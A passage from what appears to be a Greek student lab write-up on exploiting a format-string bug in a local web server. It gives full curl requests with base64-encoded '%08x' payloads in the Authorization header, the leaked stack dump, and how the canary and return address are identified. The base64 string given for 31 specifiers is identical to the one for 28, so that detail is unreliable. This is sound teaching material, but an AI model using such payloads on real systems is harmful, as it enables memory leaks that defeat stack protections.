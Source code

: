 Επομένως έπρεπε το input που θα δώσουμε στην printf να περιέχει 28 φορές το “%08x”. (Σε σχέση με το attack της ερώτησης 3, αντικαταστήσαμε το %x με %08x για καλύτερη εκτύπωση των διευθύνσεων).

Έτσι, εκτελέσαμε ένα curl request το οποίο περιείχε στο header Authorization: Basic 28 φορές το “%08x”, decoded σε base 64. Δηλαδή, περιείχε:
```
-H 'Authorization: Basic JTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eA=='
```
Ολόκληρο το curl request είναι:
```
curl --data-raw 'F' -v 'http://127.0.0.1:8000/check_secret.html' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Content-Length: 0' -H 'Authorization: Basic JTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eA==' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```
Το response που πήραμε από τον server, μεταξύ άλλων, περιείχε:
```
WWW-Authenticate: Basic realm="Invalid user: 5656c310 0000009a 56556511 f7d05d80 00000000 5655c47a 56559180 f7d05d80 00000000 5656c310 0000009a 00000000 00000001 5656c310 00000000 56557569 0000009a ffffcf58 f7b9dff2 f7d05d80 00000000 00000000 f7b5f570 f7b9dfd7 f7d03880 f7d05d80 24913800 f7d05d80"
``` 
Παρατηρούμε πως στις παραπάνω διευθύνσεις δεν περιέχεται το return address της check_auth (όπως αναμέναμε). Αυτό ενδεχομένως να φταίει η κλήση της printf, κατά την οποία ίσως αλλάζει η δομή της στοίβας. Έτσι, εκτελέσαμε επαναλαμβανόμενα requests αυξάνοντας διαδοχικά το πλήθος των “%08x” κατά 1. Τελικά, χρειάζονται **31 “%08x”**, δηλαδή το αντίστοιχο base64 encoded string είναι:
```
Authorization: Basic JTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eA==
```
Το output που παίρνουμε είναι:
```
WWW-Authenticate: Basic realm="Invalid user: 5656c310 0000009a 56556511 f7d05d80 00000000 5655c47a 56559180 f7d05d80 00000000 5656c310 0000009a 00000000 00000001 5656c310 00000000 56557569 0000009a ffffcf58 f7b9dff2 f7d05d80 00000000 00000000 f7b5f570 f7b9dfd7 f7d03880 f7d05d80 24913800 f7d05d80 56558f04 ffffcf68 565560c2"
```
Στο οποίο περιέχονται οι εξής διευθύνσεις:
```
5656c310 0000009a 56556511 f7d05d80 00000000 5655c47a 
56559180 f7d05d80 00000000 5656c310 0000009a 00000000 
00000001 5656c310 00000000 56557569 0000009a ffffcf58 
f7b9dff2 f7d05d80 00000000 00000000 f7b5f570 f7b9dfd7 
f7d03880 f7d05d80 24913800 f7d05d80 56558f04 ffffcf68 565560c2
```
Έτσι, (συγκρίνοντας τα παραπάνω και με το output του gdb) εξάγουμε τις εξής πληροφορίες:
- Η 31η τιμή είναι το return address της συνάρτησης check_auth ```565560c2```.
- Η 30η τιμή είναι η τιμή του $ebp ```ffffcf68``` (η οποία είναι ίδια με την τιμή του $ebp εσωτερικά της post_param).
- Η 27η τιμή είναι η τιμή του canary ```24913800```
